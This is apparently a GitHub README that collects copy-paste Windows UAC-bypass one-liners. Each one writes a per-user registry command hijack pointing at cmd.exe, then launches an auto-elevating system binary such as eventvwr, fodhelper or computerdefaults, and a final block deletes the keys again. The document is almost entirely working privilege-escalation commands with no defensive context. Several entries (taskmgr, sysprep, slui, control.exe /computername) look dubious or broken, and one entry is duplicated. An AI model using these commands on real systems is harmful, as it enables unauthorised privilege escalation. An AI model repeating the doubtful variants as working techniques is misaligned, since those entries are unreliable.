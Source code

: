 # uac-bypass-oneliners

Collection of one-liners to bypass User Account Control (UAC) in Windows. These techniques exploit certain behavior in Windows applications to elevate privileges.

Techniques
<br>
Using eventvwr.exe: <br> <br>

```

reg add "HKCU\Software\Classes\mscfile\shell\open\command" /v DelegateExecute /t REG_SZ /d "" /f && reg add "HKCU\Software\Classes\mscfile\shell\open\command" /ve /t REG_SZ /d "cmd /c start cmd" /f && eventvwr.exe
```
<br>
Using fodhelper.exe: <br> <br>

```

reg add HKCU\Software\Classes\ms-settings\shell\open\command /f /ve /t REG_SZ /d "cmd.exe" && start fodhelper.exe

```


Using computerdefaults.exe:<br> <br>

```

reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe" /f && start computerdefaults.exe
```
Using sdclt.exe:<br> <br>

```

reg add HKCU\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe /ve /t REG_SZ /d "cmd.exe" /f && start sdclt.exe
```
<br>
Using slui.exe:<br> <br>

```

reg add HKCU\Software\Classes\exefile\shell\open\command /ve /t REG_SZ /d "cmd.exe" /f && reg add HKCU\Software\Classes\exefile\shell\open\command /v DelegateExecute /f && start slui.exe
```

<br>
Using perfmon.exe: <br> <br>

```

reg add "HKCU\Software\Classes\mscfile\shell\open\command" /v DelegateExecute /t REG_SZ /d "" /f && reg add "HKCU\Software\Classes\mscfile\shell\open\command" /ve /t REG_SZ /d "cmd /c start cmd" /f && start perfmon.exe
```

Using taskmgr.exe: <br><br>


```
reg add HKCU\Software\Classes\taskmgr\shell\open\command /ve /t REG_SZ /d "cmd.exe" /f && start taskmgr.exe
```

Using ComputerDefaults.exe: <br><br>
```
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && start computerdefaults.exe
```

Using sysprep.exe:

```

reg add HKCU\Software\Classes\AppID\{921C1A8B-9F15-4DA4-9235-0472C3A216E6} /f /ve /t REG_SZ /d "cmd.exe" && start C:\Windows\System32\sysprep\sysprep.exe
```

Using control.exe with /computername:

```

cmd /c reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" /ve /d "cmd.exe" /f && control.exe /computername

```

<b>Reset</b>:

```
reg delete "HKCU\Software\Classes\mscfile\shell\open\command" /f && reg delete HKCU\Software\Classes\ms-settings\shell\open\command /f && reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe /f && reg delete HKCU\Software\Classes\exefile\shell\open\command /f && reg delete HKCU\Software\Classes\taskmgr\shell\open\command /f && reg delete HKCU\Software\Classes\AppID\{921C1A8B-9F15-4DA4-9235-0472C3A216E6} /f
```
